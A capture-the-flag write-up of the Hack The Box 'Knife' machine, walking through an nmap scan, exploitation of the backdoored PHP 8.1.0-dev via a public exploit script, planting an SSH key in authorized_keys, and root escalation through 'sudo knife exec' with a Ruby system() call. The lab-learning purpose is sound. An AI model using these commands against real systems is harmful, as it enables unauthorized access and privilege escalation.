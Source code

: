 ```yaml
---
title: Knife
date: 2021-06-04 22:20:00 +0200
categories: [machine]
tags: [hackthebox]
toc: false
---
```


# Enumeration
## NMAP Scan
Apache 2.4.41 (Port 80) and OpenSSH (Port 22) are running on this machine.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $sudo nmap -sC -sV 10.10.10.242
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website
Upon visiting the website, not much is remarkable. No form, no hidden folders/files or anything else.
![](/assets/img/knife_box.png#center)
## Vulnerability
The running services do not seem to be vulnerable, so lets check the PHP version.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $nmap -sC -sV 10.10.10.242 --script=http-php-version
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.065s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-php-version: Version from header x-powered-by: PHP/8.1.0-dev
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Bingo - `PHP 8.1.0-dev` - that looks promising.
# Exploitation
[PHP verion 8.1.0-dev](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) was released with a backdoor in March 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agent header.
With a [POC script](https://www.exploit-db.com/exploits/49933) from exploit-db we get access to a shell.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $python 49933.py 
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
$ whoami
james
$ echo "ssh-rsa AAAAB3Nza...6ZMeJjY1iiRM= x7f@pWnbox" >> ~/.ssh/authorized_keys
```
Working with this shell is kinda wack. Let's add our ssh public key to the authorized_keys file. By doing so we can now ssh into the machine with the user James - without being asked for a password.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $ssh james@10.10.10.242
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-72-generic x86_64)
...
james@knife:~$ cat user.txt
```
We got the first flag, now it's time for the second one.
# Root
Before running automated scripts, let's run `sudo -l` and check what we can run as root.
``` bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Lets run it and check what we can do with it.
``` bash
james@knife:~$ sudo knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
...
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
...
```
Great, we can run scripts - now we just need to find out what kind of scripts are accepted.
``` bash
james@knife:~$ cat /usr/bin/knife
#!/opt/chef-workstation/embedded/bin/ruby --disable-gems
#--APP_BUNDLER_BINSTUB_FORMAT_VERSION=1--
require "rubygems"
```
Looks like Ruby. So let's try to run a Ruby script.
``` bash
james@knife:~$ echo "system('cat /root/root.txt');" > root.rb
james@knife:~$ sudo knife exec root.rb
```
We got the second flag and we are done here. ٩(◕‿◕｡)۶